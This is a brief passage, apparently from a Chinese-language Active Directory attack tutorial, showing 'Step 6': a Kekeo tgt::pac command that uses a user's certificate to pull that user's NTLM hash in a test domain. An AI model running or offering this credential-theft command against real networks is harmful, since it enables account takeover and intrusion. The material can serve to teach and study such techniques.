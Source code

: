 [![](assets/1701606771-73eef6e1678c6d20b25e331fc7f69d17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106143507-a04fe02c-7c6e-1.png)  
Step 6：使用 Kekeo 获取用户的 NTLM

```bash
tgt::pac /subject:Al1ex /castore:current_user /domain:hacke.testlab
```
